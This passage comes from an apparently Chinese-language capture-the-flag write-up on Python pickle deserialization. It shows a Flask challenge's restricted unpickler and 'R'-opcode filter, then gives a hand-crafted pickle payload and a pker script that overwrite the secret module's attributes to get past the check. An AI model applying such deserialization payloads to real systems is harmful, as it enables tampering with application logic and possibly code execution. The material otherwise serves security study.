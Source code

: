 ```python
    pickle_data = base64.b64encode(pickle.dumps(sample_obj)).decode()
    return render_template('unpickle_page.html', sample_obj=sample_obj, pickle_data=pickle_data)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

限制中，改写了`find_class`函数，只能生成`__main__`模块的pickle：

```python
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__': # 只允许__main__模块
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```

此外，禁止了`b'R'`：

```
try:
    pickle_data = request.form.get('data')
    if b'R' in base64.b64decode(pickle_data): 
        return 'No... I don\'t like R-things. No Rabits, Rats, Roosters or RCEs.'
```

目标是覆盖secret中的验证，由于secret被主程序引入，是存在于`__main__`下的secret模块中的，所以可以直接覆盖掉，此时就成功绕过了限制：

payload

```
c__main__
secret
}S'name'
S'z3eyond'
sS'category'
S'z3eyond'
sb.
```

思路:就是把原来的secret.name和secret.category覆盖掉, 然后再序列化Animal提交

**利用pker工具生成payload**

```
secret=GLOBAL('__main__', 'secret') # python的执行文件被解析为__main__对象，secret在该对象从属下
secret.name='1'
secret.category='2'
animal = INST('__main__', 'Animal','1','2')
return animal
```

###  SUCTF 2019 Guess_Game

源码：https://github.com/team-su/SUCTF-2019/tree/master/Misc/guess_game

猜数游戏，10 以内的数字，猜对十次就返回 flag。
